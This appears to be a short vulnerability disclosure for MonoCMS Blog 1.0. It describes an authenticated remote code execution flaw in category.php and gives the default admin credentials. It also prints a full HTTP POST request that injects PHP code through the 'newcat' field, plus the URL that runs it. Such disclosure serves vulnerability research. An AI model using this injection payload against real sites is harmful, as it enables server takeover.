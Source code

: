 # MonoCMS Blog 1.0_remote_code_execution

## Detail:
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/2.png?raw=true)




## POC:
My env
MonoCMS Blog 1.0
php 5.6.9
Windows

category rce 
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.

First Step:
Login to your account(default:admin/1234) 

Send an request:
```
POST /monofiles/category.php HTTP/1.1
Host: 172.16.105.29
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.105.29
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.105.29/monofiles/category
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MON=r1u4c0k2mv2c222linpoma712m
Connection: close

newcat=test";phpinfo();exit();//&foldername=test
```


Visit ```/category/test/index``` to successfully execute the code
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/1.png?raw=true)
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/2.png?raw=true)



 

 



 
